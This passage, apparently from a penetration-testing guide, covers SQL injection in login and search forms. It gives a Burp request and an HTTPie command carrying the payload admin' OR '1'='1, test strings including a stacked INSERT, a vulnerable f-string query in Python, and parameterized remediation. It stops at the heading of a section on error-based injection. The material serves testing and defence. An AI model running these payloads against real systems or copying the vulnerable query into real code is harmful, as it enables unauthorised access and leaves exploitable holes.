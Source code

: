 **Objective**: Check if form inputs are vulnerable to SQL injection.

**Steps**:
1. Identify forms:
   - Look for login or search forms.
2. Inject payloads:
   - Use Burp:
     ```http
     POST /login HTTP/1.1
     Host: example.com
     Content-Type: application/x-www-form-urlencoded

     username=admin' OR '1'='1&password=test
     ```
   - Use HTTPie:
     ```bash
     http POST http://example.com/login username="admin' OR '1'='1" password=test
     ```
3. Check responses:
   - Look for login bypass or data exposure.
   - Test: `' OR 1=1 --`.
4. Test stored injection:
   - Try: `' OR 1=1; INSERT INTO logs (data) VALUES ('malicious') --`.

**Example Vulnerable Code (Python)**:
```python
username = request.form['username']
query = f"SELECT * FROM users WHERE username = '{username}'"
cursor.execute(query)
```
Test: `username=admin' OR '1'='1`
Result: Bypasses login.

**Example Secure Code (Python)**:
```python
username = request.form['username']
cursor.execute("SELECT * FROM users WHERE username = %s", (username,))
```
Test: No bypass.

**Remediation**:
- Use parameterized queries:
  ```python
  cursor.execute("SELECT * FROM users WHERE username = %s", (username,))
  ```
- Sanitize input:
  ```python
  if not username.isalnum(): raise ValueError("Invalid username")
  ```

**Tip**: Save form injection evidence in a report.

### 3. Test for Error-Based SQL Injection

**Objective**: Exploit database errors to extract information.
